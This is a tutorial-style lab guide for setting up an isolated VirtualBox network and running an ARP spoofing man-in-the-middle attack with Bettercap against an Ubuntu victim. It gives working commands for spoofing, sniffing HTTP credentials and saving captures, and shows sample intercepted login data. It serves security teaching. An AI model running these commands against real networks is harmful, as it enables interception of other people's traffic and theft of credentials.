









# ARP Spoofing Lab — Professional Guide

## Overview

This document guides you through building a controlled ARP spoofing (ARP poisoning) lab in VirtualBox. It uses two virtual machines:

- **Kali Linux** — attacker
- **Ubuntu** — victim

The lab demonstrates how ARP works on a local network, how a Man‑in‑the‑Middle (MITM) attack can be carried out using ARP spoofing with Bettercap, how to capture unencrypted HTTP traffic, and how to clean up afterwards.

**Important legal notice:** Only perform these steps in a test network you control. Running ARP spoofing against networks or devices you don’t own or don’t have explicit authorization to test is illegal.

---

## Goals

* Create an isolated NAT network in VirtualBox for Kali and Ubuntu.
* Configure both VMs to use that private network.
* Launch an ARP spoofing attack from Kali with Bettercap.
* Capture and analyze HTTP traffic (cleartext) using Bettercap and Wireshark.
* Save evidence to a pcap and restore the network state afterwards.

---

## Recommended topology

* VirtualBox NAT Network name: `ARP_Lab` — 192.168.50.0/24
* Example addressing (DHCP):

  * `192.168.50.1` — NAT gateway
  * `192.168.50.10` — Kali
  * `192.168.50.20` — Ubuntu



---

## Step 1 — Create the NAT network in VirtualBox

1. Open VirtualBox.
2. File → Preferences → Network → NAT Networks.
3. Click **+** to create a new NAT Network.
4. Configure:

   * **Name:** `ARP_Lab`
   * **IPv4 CIDR:** `192.168.50.0/24`
   * **Enable DHCP:** checked
5. Click **OK** to save.



---

## Step 2 — Attach Kali and Ubuntu to the NAT network

### Kali VM

* VM → Settings → Network → Adapter 1 → Attached to: **NAT Network** → Choose: `ARP_Lab` → OK.

### Ubuntu VM

* Same steps as Kali: Adapter 1 → NAT Network → `ARP_Lab` → OK.



---

## Step 3 — Verify connectivity

Boot both VMs.

On Kali:

```bash
ip addr show
# Record the IP, e.g. 192.168.50.10
```

On Ubuntu:

```bash
ip addr show
# Record the IP, e.g. 192.168.50.20
```

From Kali, test reachability:

```bash
ping -c 4 192.168.50.20
```

If replies arrive, the VMs can communicate.



---

## Step 4 — Install required tools

### On Kali (attacker)

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install bettercap wireshark -y
bettercap --version
```

Bettercap may already be installed on Kali images.

### On Ubuntu (victim)

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install firefox -y
```

A web browser is sufficient for generating HTTP requests for the demo.



---

## Step 5 — Choose HTTP test sites

Only use HTTP (not HTTPS) so traffic remains readable.
Suggested test sites:

* [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/)
* [http://neverssl.com/](http://neverssl.com/)
* [http://httpforever.com/](http://httpforever.com/)



---

## Step 6 — Enable IP forwarding on Kali

Allow Kali to forward packets between the victim and gateway:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

If you want it permanent, change `/etc/sysctl.conf` (optional).

---

## Step 7 — Run Bettercap and perform ARP spoofing

1. Identify your network interface name (example: `eth0`, `enp0s3`):

```bash
ip a
```

2. Start Bettercap on the chosen interface:

```bash
sudo bettercap -iface eth0
```

3. Discover hosts (inside bettercap):

```
net.probe on
sleep 5
net.show
```

You’ll see entries such as gateway and victim IPs.

4. Start ARP spoofing against the victim:

```
set arp.spoof.targets 192.168.50.20
set arp.spoof.internal true
arp.spoof on
```

Kali will now place itself between the victim and the gateway (MITM).



---

## Step 8 — Sniff HTTP traffic with Bettercap

In Bettercap:

```
set net.sniff.verbose true
set net.sniff.local true
set net.sniff.filter 'tcp port 80'
net.sniff on
```

You will see HTTP requests and responses in Bettercap’s console, for example:

```
[net.sniff] 192.168.50.20:4321 → 192.168.50.1:80 GET /index.html
[net.sniff] 192.168.50.20:4321 → 192.168.50.1:80 POST /login.php username=test&password=123
```


---

## Step 9 — (Optional) Inspect with Wireshark

Open Wireshark on Kali:

```bash
sudo wireshark &
```

Select the interface and use display filters such as `http` or `tcp.port == 80`.



---

## Step 10 — Demonstration workflow

### On Ubuntu (victim)

Open Firefox and visit a test HTTP site from Step 5. Fill forms or perform searches to generate requests.

### On Kali (attacker)

Monitor Bettercap and Wireshark for cleartext GET/POST requests and credentials.



---

## Step 11 — Save the capture (optional)

To log traffic to a pcap file with bettercap:

```bash
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.50.20; arp.spoof on; set net.sniff.output /root/capture.pcap; net.sniff on"
```

Open later with Wireshark:

```bash
wireshark /root/capture.pcap &
```
---

## Step 12 — Cleanup and restore

Stop spoofing and forwarding:

```bash
# Disable IP forwarding
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

# In bettercap (if open):
arp.spoof off
net.sniff off
exit

# If you started a service or background process:
sudo systemctl stop bettercap || true
```

On Ubuntu, check the ARP table:

```bash
sudo arp -n
```

If entries remain, restart the network interface or reboot the VM to clear stale ARP entries.

---

## Quick reference — essential Bettercap commands

* `net.probe on` — probe the network
* `net.show` — show discovered hosts
* `set arp.spoof.targets <IP>` — set the victim
* `set arp.spoof.internal true` — internal spoof mode
* `arp.spoof on/off` — toggle spoofing
* `set net.sniff.filter 'tcp port 80'` — sniff HTTP only
* `set net.sniff.output /path/to/file.pcap` — save capture
* `net.sniff on/off` — toggle sniffing

---

## Closing notes

This lab is designed for learning and defensive testing. Use it to understand how unencrypted traffic and weak local network protocols can expose sensitive data. Always restore the environment and remove any persistent configurations you added for the test.


